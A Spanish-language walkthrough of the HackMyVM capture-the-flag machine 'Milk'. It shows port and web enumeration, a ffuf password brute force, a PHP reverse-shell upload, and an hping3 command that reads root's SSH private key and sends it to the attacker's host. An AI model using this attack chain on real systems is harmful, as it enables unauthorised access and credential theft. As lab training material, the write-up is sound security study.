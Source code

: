```yaml
---
layout: post
title: Milk - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Sml \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/milk/milk.png#center)

## Reconocimiento

Comienzo con una enumeración de puertos usando nmap.

```
$ sudo nmap -p- 192.168.1.177      
[sudo] contraseña para user: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-01 22:03 UTC
Nmap scan report for 192.168.1.177
Host is up (0.000083s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:BA:69:3A (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.38 seconds
```

### 80 (http)

Continuo con la enumeración utilizando nikto sobre la página web en el puerto 80 y encuentro un login de administrador.

```
nikto --host http://192.168.1.177
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.177
+ Target Hostname:    192.168.1.177
+ Target Port:        80
+ Start Time:         2023-01-01 22:04:29 (GMT0)
---------------------------------------------------------------------------
[...]
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
```

Realizo un ataque de fuerza bruta usando ffuf con el usuario admin y consigo su contraseña.

```
$ cat req.txt
POST /admin/index.php HTTP/1.1
Host: 192.168.1.177
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://192.168.1.177
Connection: close
Referer: http://192.168.1.177/admin/index.php
Cookie: PHPSESSID=ooukt4rsu900cuojv7uf3avl4n
Upgrade-Insecure-Requests: 1

username=admin&password=FUZZ&login=
```

```
$ ffuf -w /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -request req.txt -debug-log test -u "http://192.168.1.177/admin/index.php" -fs 854     
[...]
admin                   [Status: 200, Size: 873, Words: 3, Lines: 5, Duration: 29ms]
```

## Explotación

Una vez logeado, para conseguir una reverse shell hay que realizar lo siguiente:

- Añadir una marca de coche nueva.
- Añadir un coche nuevo con datos arbitrarios.
- En las imágenes del coche, subir una reverse shell en php.

![img](/imgs/write-ups/hackmyvm/milk/milk_1.png#center)

Una vez guardado el coche nuevo, navego a la página principal y obtengo la conexión.

```
$ nc -lvnp 1234                    
Connection from 192.168.1.177:39182
whoami
www-data
```

## Escalado de privilegios

Una vez dentro del servidor, ejecuto linpeas.sh para enumerar posibles métodos de escalado de privilegios y encuentro que hping3 tiene la capabilitie "cap_dac_override" la cual nos permite leer archivos en todo el sistema.

```
/usr/sbin/hping3 = cap_dac_override,cap_net_raw+ep 
```

Utilizo hping3 para leer la clave privada del usuario root y enviarla a mi máquina.

```
hping3 -c 1 --file /root/.ssh/id_rsa 192.168.1.79 -d 5000
HPING 192.168.1.79 (enp0s3 192.168.1.79): NO FLAGS are set, 40 headers + 5000 data bytes
len=46 ip=192.168.1.79 ttl=64 DF id=0 sport=0 flags=RA seq=0 win=0 rtt=8.6 ms
```

Con Wireshark escuchando, obtengo el paquete con la clave privada.

![img](/imgs/write-ups/hackmyvm/milk/milk_2.png#center)

Ahora solo queda guardarla y conectarse mediante ssh.

```
ssh root@192.168.1.177 -i id_rsa
[...]
Last login: Fri Feb 19 07:47:41 2021
root@milk:~#  :)
```

Muchas gracias  **Sml** por esta máquina.
